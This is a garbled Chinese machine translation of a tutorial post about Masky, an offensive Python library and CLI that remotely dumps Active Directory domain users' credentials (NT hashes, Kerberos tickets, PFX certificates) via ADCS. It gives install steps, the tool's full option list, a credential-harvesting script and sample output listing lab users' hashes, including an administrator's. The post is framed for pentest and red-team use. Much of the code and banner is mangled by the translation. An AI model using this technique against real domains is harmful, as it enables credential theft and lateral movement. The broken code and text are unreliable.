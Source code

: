 # Masky:带 CLI 的 Python 库，允许通过 ADCS 远程转储域用户凭证

> 原文：<https://kalilinuxtutorials.com/masky/>

[![](img//64f90137c2a94a9a5b7535ad2008215e.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi613ZRJi8M2dKw6VGvbn4P7TjfU9GiDsiM-WGtecg3AWHtJfklXdvAPtTFNGwSKEuQrXRW4zQjaTQNT3bZy6nFOSz-2sxe8uHxso5ar00gSzQADKFw68yYgGxQw_chr_uKIWUSL74Dl5f-NDvOToMN-Wqdp45YXO9UThShzn1m4u8DMZiVQ3rhUl4Y/s728/download.png)

Masky 是一个 python 库，借助 ADCS，它提供了一种远程转储域用户凭证的替代方法。在这个库的基础上构建了一个命令行工具，以便在更大的范围内轻松收集 PFX、NT 散列和 TGT。

该工具不利用任何新的漏洞，并且不通过转储 LSASS 进程内存来工作。事实上，它只利用了合法的 Windows 和 Active Directory 特性(令牌模拟、通过 kerberos 的证书认证和通过 PKINIT 的 NT 哈希检索)。发布了一篇博客文章，详细介绍了实现的技术以及 Masky 的工作原理。

Masky 源代码很大程度上基于令人惊叹的 Certify 和 Certipy 工具。我真的很感谢他们的作者对攻击性开发技术对 ADCS 的研究(见。确认部分)。

## 安装

Masky python3 库及其相关的 CLI 可以通过公共 PyPi 库简单地安装，如下所示:

**pip 安装屏蔽**

PyPi 包中已经包含了 Masky 代理可执行文件。

此外，如果需要修改代理，可以通过位于`**agent/Masky.sln**`中的 Visual Studio 项目重新编译 C#代码。这需要建造`**.NET Framework 4**`。

## 用法

Masky 被设计成一个 Python 库。此外，在它的基础上创建了一个命令行界面，以便在 pentest 或 RedTeam 活动中使用它。

对于这两种用法，您首先需要检索通过 ADCS 部署的`**CA server**`及其`**CA name**`的 FQDN。这些信息可以通过`**certipy find**`选项或微软内置的`c**ertutil.ex**e`工具轻松检索。确保在目标 CA 上启用了默认的`**User**`模板。

警告:Masky 通过修改现有的`RasAuto`服务在每个目标上部署一个可执行文件。尽管自动回滚其初始`**ImagePath**`值，Masky 运行时期间的意外错误可能会跳过清理阶段。因此，不要忘记手动重置原始值，以防意外停机。

### 命令行

下面的演示通过针对 4 个远程系统显示了 Masky 的基本用法。它的执行允许从 sec.lab 测试域中收集 3 个不同域用户的 NT 散列、CCACHE 和 PFX。

Masky 还提供了此类工具通常提供的选项(线程号、身份验证模式、从文件加载的目标等)。).

***_ _*_
| \/|*_**| |*_
| | \/|/*`/_*|//|
| | |(*| _*\<|*|*|*| _*，*|*/*| *| v0.0.3 |* /
用法:Masky[-H][-v][-ts][-t THREADS][-d DOMAIN][-u USER][-p PASSWORD][-k][-H HASHES][-DC-ip IP address]-ca CERTIFICATE _ AUTHORITY[-NH][-nt][-NP][-o OUTPUT]
[Targets…]
位置参数:
Targets CIDR 的目标，接受主机名和 IP 格式，来自 a –时间戳显示每个日志的时间戳
-t 线程，–THREADS THREADS
thread pool size(max 15)
认证:
-d 域，–DOMAIN DOMAIN
域名认证到
-u 用户，–USER 用户名认证到
-p 密码，–PASSWORD PASSWORD
密码认证到
-k，–kerberos 使用 Kerberos 认证。 根据目标参数从 ccache 文件(KRB5CCNAME)中获取凭据。
-H HASHES，–HASHES HASHES
要验证的 HASHES(LM:NT，:NT 或:LM)
连接:
-dc-ip ip 地址域控制器的 ip 地址。如果省略，它将使用目标参数中指定的域部分(FQDN)
-CA CERTIFICATE _ AUTHORITY，–CERTIFICATE-AUTHORITY CERTIFICATE _ AUTHORITY
证书颁发机构名称(SERVER\CA_NAME)
结果:
-nh，–no-hash 不请求 NT 哈希
-nt，–no-ccache 不保存 ccache 文件
-np，–no-pfx 不保存 pfx 文件
-o OUTPUT，–OUTPUT 输出
本地路径***

### Python 库

下面是一个简单的脚本，使用 Masky 库从远程目标收集运行域用户会话的秘密。

**from Masky import Masky
from get pass import get pass
def dump _ nt _ hashes():
定义认证参数
CA = " SRV-01 . sec . lab \ sec-SRV-01-CA "
DC _ IP = " 192 . 168 . 23 . 148 "
domain = " sec . lab "
user = " asky walker "
password = get pass()
用 password=password)
设置一个目标并对其运行 Masky
target = " 192 . 168 . 23 . 130 "
rslts = m . run(target)
检查 Masky 是否成功劫持了至少一个用户会话
或者是否发生了意外错误
如果没有 rslts:
在 MaskyResult 对象上返回 False
循环以显示被劫持的用户并从主机名检索他们的 NT 散列
print(f)结果**

它的执行生成以下输出。

**蟒 3。\masky_demo.py
密码:
结果来自主机名:SRV-01
–sec \ hsolo–05 ff 4 b 2d 523 BC 5 c 21 e 195 e 9851 e 2 b 157
–sec \ asky walker–8928 e 0723012 a 8471 c 0084149 C4 e 23 b 1
–sec \ administrator–4 f1 c6b 554 bb 79 e 2e ce 91 e 012 ffbe 6988 a【T6**

Masky 成功执行后，返回一个包含一系列`**User**`对象的`**MaskyResults**`对象。

请看`**masky\lib\results.py**`模块，检查这两个类提供的方法和属性。

[Download](https://github.com/Z4kSec/Masky)